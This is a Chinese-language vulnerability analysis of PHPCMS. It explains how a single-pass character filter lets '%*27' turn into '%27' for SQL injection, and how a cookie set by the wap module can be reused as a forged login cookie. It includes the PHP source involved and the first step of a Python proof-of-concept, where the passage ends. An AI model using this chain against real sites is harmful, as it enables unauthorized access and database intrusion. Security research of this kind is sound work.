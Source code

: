 这个其实很好绕过。函数将敏感字符替换为空，但问题是只执行一次，所以当输入是`%*27`时`*`被过滤，进而可以得到`%27`。

当然现在情况下还是登陆才能注入，危害好像不是特别大。所以这里看看是否能绕过登陆，看看这里的验证。

```php
class attachments {
	private $att_db;
	function __construct() {
		pc_base::load_app_func('global');
		$this->upload_url = pc_base::load_config('system','upload_url');
		$this->upload_path = pc_base::load_config('system','upload_path');		
		$this->imgext = array('jpg','gif','png','bmp','jpeg');
		$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
		$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
		$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
		//判断是否登录
		if(empty($this->userid)){
			showmessage(L('please_login','','member'));
		}
	}
```

这里的逻辑大概是调用param:get-cookie 从cookie里面获取user_id加密值，如果解密后不为空， 就判断已经登录。我们只需要找一个可能得到加密值的地方就行，所以定位到`/phpcms/modules/wap/index.php` 中：

```php
function __construct() {		
	$this->db = pc_base::load_model('content_model');
	$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
	param::set_cookie('siteid',$this->siteid);	
	$this->wap_site = getcache('wap_site','wap');
	$this->types = getcache('wap_type','wap');
	$this->wap = $this->wap_site[$this->siteid];
	define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
	if($this->wap['status']!=1) exit(L('wap_close_status'));
}
```

这里调用了set_cookie 因此我们可以很轻松的得到一个可操控的加密值(注意site_id 调用了intval函数，无法直接传入我们payload, 只能得到整数值)。

### 构造poc

#### 第一步

访问`http://127.0.0.1/phpcms/index.php?m=wap&a=index&siteid=1`得到一个合法的siteid加密值。

```python
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)

    r = requests.get(step1)
    #print r.cookies
    cookies = {}

    for cookie in r.cookies:
        if '_siteid' in cookie.name:
            userid = cookie.value
            print 'userid:'+userid
            cookie_head = cookie.name[:6]
            cookies[cookie_head + '_userid'] = cookie.value
            cookies[cookie.name] = cookie.value
            print cookies
```
